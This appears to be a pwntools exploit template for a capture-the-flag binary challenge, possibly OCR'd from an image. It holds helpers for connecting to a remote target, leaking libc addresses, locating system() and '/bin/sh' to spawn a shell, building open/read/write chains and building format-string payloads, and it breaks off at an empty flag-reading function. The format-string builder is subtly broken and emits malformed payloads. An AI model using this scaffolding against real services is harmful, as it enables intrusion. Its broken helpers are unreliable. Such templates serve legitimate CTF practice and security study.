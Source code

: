 ```python
from pwn import *
from ctypes import *

pwn = './pwn'

if args['REMOTE']:
    io = remote('192.168.18.22', 8888)
else:
    io = process(pwn)

context(log_level='debug')
#context.terminal = ['tmux','splitw','-h']
context.binary = elf = ELF(pwn)
rop = ROP(context.binary)

s = lambda data: io.send(data)
sa = lambda text, data: io.sendafter(text, data)
sl = lambda data: io.sendline(data)
sla = lambda text, data: io.sendlineafter(text, data)
r = lambda num=4096: io.recv(num)
ru = lambda text: io.recvuntil(text)
pr = lambda num=4096: print(io.recv(num))
inter = lambda: io.interactive()

l32 = lambda: u32(io.recvuntil(b'\xf7')[-4:].ljust(4, b'\x00'))
l64 = lambda: u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
uu32 = lambda: u32(io.recv(4).ljust(4, b'\x00'))
uu32_hex = lambda: int(io.recvuntil(b'0x', drop=True) + r(8), 16)
uu64 = lambda: u64(io.recv(6).ljust(8, b'\x00'))
uu64_hex = lambda: int(io.recvuntil(b'0x', drop=True) + r(12), 16)
uuu64 = lambda: u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
uuuu64 = lambda target: u64((ru(target)[-1:] + r(5)).ljust(8, b'\x00'))

int16 = lambda data: int(data, 16)

lg = lambda s, num: io.success('%s -> 0x%x' % (s, num))

def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

def get_orw():
    return libc_base + libc.sym['open'], libc_base + libc.sym['read'], libc_base + libc.sym['write']

def debug(script=f''):
    script = f'b __call_tls_dtors'
    gdb.attach(proc.pidof(io)[0], script)
    pause()

def fmt(value, offset=14, size='hhn'):
    if size == 'hhn':
        num = value & 0xff
    elif size == 'hn':
        num = value & 0xffff
    elif size == 'n':
        num = value & 0xffffffff
    payload = f'%{num}c%{offset}size'.encode()
    #value 是格式化字符串偏移          
    return payload

lss = lambda s: log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def cat_flag():
```